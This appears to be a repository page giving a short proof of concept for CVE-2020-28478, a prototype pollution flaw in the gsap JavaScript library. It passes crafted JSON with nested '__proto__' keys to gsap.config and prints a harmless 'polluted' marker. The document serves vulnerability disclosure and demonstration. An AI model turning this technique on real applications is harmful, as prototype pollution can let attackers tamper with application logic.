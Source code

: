 
# gsap 1.19.90 PoC / CVE-2020-28478


reference: https://nvd.nist.gov/vuln/detail/CVE-2020-28478


severity: High

Base score: 7.5






## Proof of Concept

gsap.config({ autoSleep: JSON.parse('{"__proto__":{"__proto__":{"polluted":"yes"}}}') });
// gsap.defaults(JSON.parse('{"proto":{"polluted":"yes"}}'));

document.write('Polluted : ' + polluted);
